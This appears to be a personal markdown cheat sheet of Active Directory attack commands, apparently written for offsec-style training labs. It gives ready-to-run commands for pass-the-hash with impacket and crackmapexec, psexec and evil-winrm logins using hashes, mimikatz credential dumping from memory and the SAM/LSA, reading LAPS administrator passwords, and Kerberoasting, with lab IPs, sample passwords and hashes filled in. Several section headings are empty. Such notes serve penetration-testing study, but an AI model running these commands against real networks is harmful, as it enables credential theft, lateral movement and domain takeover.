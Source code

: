 ## Pass the Hash or crack(gained from local SAM)
1. `impacket-secretsdump <username>:<password>@<domain name or IP> -dc-ip <DC IP>`
2. or `secretsdump.py marvel/ID:SOMEPASSWORD@TARGETIP` eg `python /opt/impacket/examples/secretsdump.py offsec/Allison:'RockYou!'@192.168.125.59 `
3. `crackmapexec smb 192.168.57.0/24 -u "Frank Admin" -H <Second part of the HASH without ::> --local-auth` (we are trying to login to other computers)
4. If we pawned a PC, we can try to psexec into the PC. `psexec.py "Frank Admin":@TARGETIP -hashes avbcd:abcd`. 
5. e.g `python /usr/share/doc/python3-impacket/examples/psexec.py  offsec/Administrator:@192.168.176.57 -hashes 51404eeaad3b435b51404ee:8c802621d74345dded890f3e5`
6. `evil-winrm -i 192.168.160.170 -u SOMEUSER -H d098fa8675acd7d26ab86eb2581233e5``
7. If dont get a shell, we werent able to gain admin access. Maybe RDP is open?. We can still do Kerbroasting.
## Dumping Hash (as Admin) 
1. Use mimikatz to view, steal credentials, generate kerbros tickets and leverage attack.
2. `.\mimikatz.exe`
3. `privilege::debug` (to gain access and bypass protection against memory) 
4. `sekurlsa::logonpasswords` Not only are we compromising DC, when we comporised a regualr computer, it is going to show the PC and NTLM hash, and any other user that has logged into the computer ever since the last reboot which is stored in memory
5. `lsadump::sam`
6. `lsadump::lsa /patch`

## Golden Ticket Attack


## GPP credentials 

## LAPS Dumping (Local Administrator Password Solution, creds required) 
1. We may be able to read the local administrator password solution.
2. `crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps`
3. `ldapsearch -x -h 192.168.64.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd `
## Token Impersonation
0. If we navigate to a machine and token of a domain administrator(user), we have domain admin. 


## Kerbreroasting (Service Account Attack (want to attack members of high value group, dont have to be admin )
1. Once we have some username + password, we ask the Domian Controller for TGS (since we can request TGT) and try to crack TGS hash.
2. `locate  GetUserSPNs.py`  `cd /usr/share/doc/python3-impacket/examples/` `python GetUserSPNs.py offsec.local/nathan:"abc123" -dc-ip=192.168.125.57 -request`
